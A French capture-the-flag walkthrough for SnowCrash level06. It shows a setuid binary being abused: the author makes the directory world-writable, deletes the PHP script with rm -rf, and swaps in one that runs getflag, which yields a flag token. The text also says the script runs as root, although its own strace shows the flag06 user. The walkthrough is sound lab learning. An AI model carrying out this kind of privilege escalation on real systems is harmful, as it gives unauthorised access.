 # Level06

</br></br>

## ls -l

```sh
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Les deux fichiers sont exécutables et lisibles
Dans le fichier level06, rws signifie lecture-écriture-exécution + setuid. Cela signifie que lorsque le fichier est exécuté, l'utilisateur exécutant a les privilèges du propriétaire du fichier (flag06). Ainsi, lorsque l'utilisateur level06 exécute le fichier level06, il aura les privilèges de l'utilisateur flag06 lors de son exécution.

</br></br>

## level06

```bash
level06@SnowCrash:~$ nm ./level06
08049f28 d _DYNAMIC
08049ff4 d _GLOBAL_OFFSET_TABLE_
080487cc R _IO_stdin_used
         w _Jv_RegisterClasses
08049f18 d __CTOR_END__
08049f14 d __CTOR_LIST__
08049f20 D __DTOR_END__
08049f1c d __DTOR_LIST__
08048a3c r __FRAME_END__
08049f24 d __JCR_END__
08049f24 d __JCR_LIST__
0804a02c A __bss_start
0804a024 D __data_start
08048780 t __do_global_ctors_aux
08048550 t __do_global_dtors_aux
0804a028 D __dso_handle
         w __gmon_start__
08048772 T __i686.get_pc_thunk.bx
08049f14 d __init_array_end
08049f14 d __init_array_start
08048770 T __libc_csu_fini
08048700 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
0804a02c A _edata
0804a034 A _end
080487ac T _fini
080487c8 R _fp_hw
08048380 T _init
08048528 T _start
0804864e T afterSubstr
0804a02c b completed.6159
0804a024 W data_start
0804a030 b dtor_idx.6161
         U execve@@GLIBC_2.0
080485b0 t frame_dummy
         U free@@GLIBC_2.0
         U getegid@@GLIBC_2.0
         U geteuid@@GLIBC_2.0
0804867c T isLib
08048450 T main
         U setresgid@@GLIBC_2.0
         U setresuid@@GLIBC_2.0
         U strdup@@GLIBC_2.0
080485f3 T syscall_gets
080485d4 T syscall_open
level06@SnowCrash:~$ strace ./level06
...
...
mprotect(0xb7fcf000, 8192, PROT_READ)   = 0
mprotect(0x8049000, 4096, PROT_READ)    = 0
mprotect(0xb7ffe000, 4096, PROT_READ)   = 0
munmap(0xb7fd5000, 21440)               = 0
brk(0)                                  = 0x804b000
brk(0x806c000)                          = 0x806c000
getegid32()                             = 2006
geteuid32()                             = 2006
setresgid32(2006, 2006, 2006)           = 0
setresuid32(2006, 2006, 2006)           = 0
execve("/usr/bin/php", ["/usr/bin/php", "/home/user/level06/level06.php", "", ""], [/* 21 vars */]) = 0
...
...
```

level06 execute le fichier level06.php avec les privilèges root

ça doit être commancer

```sh
level06@SnowCrash:~$ chmod 777 .
level06@SnowCrash:~$ ls
level06  level06.php
level06@SnowCrash:~$ rm -rf level06.php
level06@SnowCrash:~$ ls
level06
level06@SnowCrash:~$ vim level06.php
level06@SnowCrash:~$ ls
level06  level06.php
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php

<?php
echo exec('getflag');
?>
level06@SnowCrash:~$ ./level06

Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
level06@SnowCrash:~$ su level07
Password:
```

